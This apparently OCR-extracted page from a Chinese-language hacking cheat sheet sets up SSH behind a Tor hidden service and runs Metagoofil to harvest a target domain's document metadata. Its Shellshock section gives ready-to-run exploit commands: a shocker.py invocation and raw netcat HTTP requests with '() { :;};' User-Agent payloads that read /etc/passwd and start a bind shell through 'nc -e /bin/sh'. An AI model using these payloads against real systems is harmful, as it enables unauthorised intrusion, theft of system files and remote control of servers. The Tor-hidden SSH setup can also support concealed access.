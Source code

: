 # 安装服务
$ apt-get install tor torsocks

# 绑定 ssh 到 tor 服务端口 80
# /etc/tor/torrc
SocksPolicy accept 127.0.0.1
SocksPolicy accept 192.168.0.0/16
Log notice file /var/log/tor/notices.log
RunAsDaemon 1
HiddenServiceDir /var/lib/tor/ssh_hidden_service/
HiddenServicePort 80 127.0.0.1:22
PublishServerDescriptor 0
$ /etc/init.d/tor start
$ cat /var/lib/tor/ssh_hidden_service/hostname
3l5zstvt1zk5jhl662.onion

# ssh 客户端连接
$ apt-get install torsocks
$ torsocks ssh login@3l5zstvt1zk5jhl662.onion -p 80
Metagoofil – 元数据收集工具

注：Metagoofil 是一款利用Google收集信息的工具。

# http://www.edge-security.com/metagoofil.php
# 它可以自动在搜素引擎中检索和分析文件，还具有提供Mac地址，用户名列表等其他功能
$ python metagoofil.py -d example.com -t doc,pdf -l 200 -n 50 -o examplefiles -f results.html
利用 Shellshock

# 一个发现并利用服务器 Shellshock 的工具
# https://github.com/nccgroup/shocker
$ ./shocker.py -H 192.168.56.118  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose

# 查看文件
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80

# 绑定 shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80
